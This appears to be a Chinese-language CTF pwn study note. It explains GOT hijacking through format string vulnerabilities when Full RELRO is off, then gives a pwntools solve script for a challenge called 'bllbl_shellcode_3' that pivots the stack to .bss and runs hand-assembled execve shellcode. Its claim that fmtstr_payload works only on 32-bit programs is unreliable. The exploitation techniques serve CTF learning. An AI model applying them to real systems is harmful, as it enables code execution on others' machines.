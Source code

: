 ### 格式化字符串plt表劫持got表介绍

本质上是因为未开启`FUll RELRO`保护，所以plt表和got表可以被修改；并且格式化字符串有着**任意地址写**的能力。所以可以覆盖GOT表中某个函数的地址，使其指向恶意代码

> RELRO（read only relocation）是一种用于加强对binary数据段的保护的技术，大概实现由linker指定binary的一块经过dynamic linker处理过 relocation之后的区域为只读，设置符号重定向表格为只读或在程序启动时就解析并绑定所有动态符号

而pwntools中有格式化字符串修改函数`fmtstr_payload(offset,{address:data})`,在buu里面应该讲过，不说了就

==注意这个函数只能给32位程序用==

### 为什么要确定输入位置

1. **格式化字符串的工作原理：**

   当调用如`printf(buf)`时，`printf`会从栈上按顺序读取参数

   - 第一个参数时格式化字符串（`buf`的地址）
   - 后续参数时对应格式化字符串中的格式说明符（`%d`,`%s`,`%n`等）

   > 例如：`printf("%d %s", num, str)`这一命令在32位情况下的栈布局
   >
   > | 返回地址       |  ← 栈顶
   > | 格式化字符串地址 |  ← printf的第一个参数
   > | num的地址      |  ← printf的第二个参数（对应%d）
   > | str的地址      |  ← printf的第三个参数（对应%s）

2. **漏洞利用的核心：控制栈上的参数**

   如果用户输入的`buf`包含**可控的格式说明符**（`%x`,`%n`等)，可以利用这些访问或者修改栈上的数据

3. **确定输入位置**

   `fmtstr_payload(offset,{address:data})`的底层工作原理是：

   - 将`address`写入栈中，使其占据第`offset`个参数的位置
   - 用`%offset$n`来修改地址处的值为`system`的地址

## bllbl_shellcode_3⭐

***栈迁移+汇编编写shellcode***

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *

context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
#gdb.attach(p)

bss_addr = 0x4040A0
leave_ret = 0x401338
readbss = 0x401321
jmp_rsp = 0x401342
sh_addr = 0x40201d
payload = b'b'*0x8+p64(bss_addr)+p64(readbss)+p64(leave_ret)

p.send(payload)

shellcode = asm("nop;")
shellcode+=asm("mov al,0x3b;mov esi,edi;mov edi,0x40201d;mov edx,esi;syscall;")
shellcode+=asm("nop;nop")
shellcode+=p64(jmp_rsp)

p.sendline(shellcode)
```